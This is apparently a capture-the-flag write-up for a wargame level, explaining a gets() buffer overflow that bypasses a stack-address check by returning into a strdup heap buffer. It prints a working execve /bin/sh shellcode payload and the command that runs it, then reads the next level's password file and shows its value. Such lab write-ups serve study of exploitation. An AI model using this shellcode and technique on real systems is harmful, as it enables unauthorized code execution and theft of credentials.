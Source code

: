 ### Download binary
``scp -P4242 level2@192.168.31.170:/home/user/level2/level2 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)
We observe that the program uses ``gets``, without any buffer size verification. Therefore, we will perform a buffer overflow.

----

### Building the payload

There's a protection mechanism that verifies if the return address is on the stack:
>if ((unaff_retaddr & 0xb0000000) == 0xb0000000)

In this case, the program calls ``exit(1)``
-> therefore we cannot use the stack.

We notice that ``strdup`` is called, so we can use the heap.

``ltrace ./level2``
>__libc_start_main(0x804853f, 1, 0xbffff7c4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                 = 0
gets(0xbffff6cc, 0, 0, 0xb7e5ec73, 0x80482b5123)   = 0xbffff6cc
puts("123"123)                                     = 4
strdup("123")                                      = 0x0804a008
+++ exited (status 8) +++

We notice that the return value of ``malloc`` is **0x0804a008**.

This is how we will build our payload:
``((SHELLCODE + NOP) size 80) + RET_AD (malloc)``

https://shell-storm.org/shellcode/files/shellcode-811.html

This shellcode is 28 bytes long, so we will need to pad it to reach a size of 80 with 52 "NOP" (\x90).

python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 52 + '\x08\xa0\x04\x08')" > /tmp/payload

----

#### Getting the flag

``cat /tmp/payload - | ./level2``
>1�Ph//shh/bin����°
                  1�@̀�����������������������������������������������

``whoami``
>level3

``cat /home/user/level3/.pass``
>492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

